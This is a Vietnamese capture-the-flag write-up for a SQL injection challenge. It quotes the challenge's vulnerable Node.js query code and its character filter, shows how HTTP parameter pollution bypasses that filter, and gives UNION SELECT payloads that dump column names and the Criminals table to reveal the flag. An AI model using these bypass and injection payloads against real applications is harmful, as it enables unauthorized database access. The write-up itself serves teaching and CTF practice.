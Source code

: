 ## A Peculiar Query

- Đây là một bài SQL injection, đọc source ta thấy câu query
```javascript

async function query(q) {
	const ret = await client.query(`SELECT name FROM Criminals WHERE name ILIKE '${q}%';`);
	return ret;
}

let q = req.query.q;
			// no more table dropping for you
			let censored = false;
			for (let i = 0; i < q.length; i ++) {
				if (censored || "'-\".".split``.some(v => v == q[i])) {
					censored = true;
					q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
				}
			}
      q = q.substring(0, 80);

```

và đã dò 4 kí tự ['-\".] này và thay thế bằng *, ví dụ như ta nhập vào hello'thien, thì kết quả thành hello******
cuối cùng họ dùng subtring để giới hạn input. Quá kĩ nhỉ. Vậy chúng ta nên làm gì. Sau khi suy nghĩ, tôi thấy server không check
kiểu dữ liệu. Ý tưởng sẽ dùng kĩ thuật HPP (HTTP parameter pollution). Bạn có thể gg để tìm hiểu.

- Bây giờ tôi giả lập lại đoạn code nó filt 4 kí tự kia.
```javascript
let q = ["hello world", "'"];
let censored = false;
for (let i = 0; i < q.length; i ++) {
  if (censored || "'-\".".split``.some(v => v == q[i])) {
    censored = true;
    q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
  }
}
q = q.substring(0, 80);
console.log(q)
```
>q = ["hello world", "'"] 

tương tự như có 2 parameter -> ?q=hello world&q=' để xem kết quả ra gì.
kết quả

<img src="./1.png">
vậy là khi có 2 parameter thì nó lấy được 2 kí tự từ thằng parameter 1. Nên việc ta cần làm bây giờ là chèn câu sql thích hợp để trích
xuất ra các bảng, các cột tìm ra flag và chèn đủ số lượng parameter. Để làm vậy ta viết một tool đơn giản ở file payload1.py

>['hello world', 'q', 'q', 'q', 'q', 'q', 'q', 'q', 'q', 'q', 'q', "'"]

- Dùng cái này chạy thử lại bên kia xem thử ra được hello world không
  kết quả
  <img src="./2.png">

- Vậy giờ ta chỉ cần chỉnh lại một tí: ta dùng payload ' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS để show ra
các cột trong database, sau khi chạy tool payload2.py ta ra payload cần chèn.

  <img src="./3.png">

  vì đề bài là Criminal Record Lookup, nên tôi tìm những cái liên quan về tội phạm, tìm trong đám này thấy có cột crime
  câu query tiếp theo sẽ là ' AND 1=0 UNION SELECT crime FROM Criminals-- , lấy cột crime từ bảng Criminals

- Thế là ra flag: actf{qu3r7_s7r1ng5_4r3_0u7_70_g37_y0u}
  <img src="./4.png">


